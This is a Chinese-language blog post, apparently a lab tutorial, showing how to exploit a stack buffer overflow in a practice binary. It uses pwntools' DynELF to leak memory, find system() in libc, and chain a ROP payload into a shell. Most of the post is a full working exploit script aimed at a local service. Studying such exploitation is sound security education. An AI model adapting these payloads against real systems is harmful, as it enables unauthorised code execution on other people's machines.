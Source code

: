 ```yaml
---
layout: post
title: "DynELF && ROP"
---
```


#### 0x00 前言 ####

- 环境： kali 2016.2  32位
- 工具： pwntools peda

安全机制只开启了NX和ASLR，其他都关闭

	echo 2 > /proc/sys/kernel/randomized_va_space

	gcc -g -fno-stack-protector -o vul vul.c

vul.c的内容同[ret2libc && ROP](https://pench3r.github.io/2018/03/30/ret2libc-rop.html)中使用的相同。

#### 0x01 漏洞利用 ####

在[ret2libc && ROP](https://pench3r.github.io/2018/03/30/ret2libc-rop.html)我们介绍的ROP方法，是通过获取到程序使用的对应so文件，计算函数的偏移，再配合泄漏出一个函数的内存地址，可以计算出`system`的地址和`/bin/sh`的字符串地址，最后构造`ROP`获取`shell`

但是有些情况下我们并无法获取到程序所使用的`so`库文件，此时我们可以借用`pwntools`中提供的`DynELF`模块进行内存地址的爆破，前提是我们可以控制目标程序去泄漏内存地址(这个是关键)，漏洞的原理还是和[ret2libc && ROP](https://pench3r.github.io/2018/03/30/ret2libc-rop.html)一样。

利用脚本的核心为：

<pre>e = DynELF(leak, elf=ELF('./vul'))   # 初始化DynELF模块</pre>

其中的leak为主要的暴力破解的函数

<pre>def leak(address):
    payload = "A"*payload_len + p32(write_plt_addr) + p32(main) + p32(1) + p32(address) + p32(4)
    p.send(payload)
    data = p.recv(4)
    log.debug("%#x => %s" % (address, (data or '').encode('hex')))
    return data</pre>

最后使用`lookup`来破解需要的函数地址

<pre>e.lookup('__libc_system', 'libc')</pre>


整合的利用脚本：

<pre>#!/usr/bin/python

from pwn import *

#p = process('./vul')
p = remote('127.0.0.1', 10000)
elf = ELF('./vul')

# debug
#context.terminal = ['gnome-terminal', '-x', 'sh', '-c']
#gdb.attach(proc.pidof(p)[0])

payload_len = 140
write_plt_addr = elf.plt['write']
read_plt_addr = elf.plt['read']
main = elf.symbols['main']
print "[*] main address is " + hex(main)
vul_addr = elf.symbols['vul_func']
print "[*] vul_func address is " + hex(vul_addr)

def leak(address):
    payload = "A"*payload_len + p32(write_plt_addr) + p32(main) + p32(1) + p32(address) + p32(4)
    p.send(payload)
    data = p.recv(4)
    log.debug("%#x => %s" % (address, (data or '').encode('hex')))
    return data

d = DynELF(leak, elf=elf)
system_addr = d.lookup('__libc_system', 'libc')
print "[+] Use DynELF to search system address is " + hex(system_addr)

buff_addr = elf.symbols['__bss_start']
pppr_addr = 0x080484d9  # pop esi ; pop edi ; pop ebp ; ret
exit_addr = 0xdeadbeef

payload2 = "A"*payload_len + p32(read_plt_addr) + p32(pppr_addr) + p32(0) + p32(buff_addr) + p32(8)
payload2 += p32(system_addr) + p32(exit_addr) + p32(buff_addr)

print "[*] Begin to get shell...\n"
p.send(payload2)
sleep(1)
p.send("/bin/sh\0")

p.interactive()</pre>

ps: 本地测试的时候，一直无法运行成功，后来发现原因是由于leak函数中`payload = "A"*payload_len + p32(write_plt_addr) + p32(main) + p32(1) + p32(address) + p32(4)`，`p32(main)`不能设置为`p32(vul_func)`,目前不太肯定到底是什么原因，个人猜测可能是涉及到堆栈的一些问题。

#### 0x02 总结 ####

这篇文章中只介绍了DynELF模块的基本使用方法，对于漏洞原理并没有过多的解释，可以通过[ret2libc && ROP](https://pench3r.github.io/2018/03/30/ret2libc-rop.html)做深入理解。
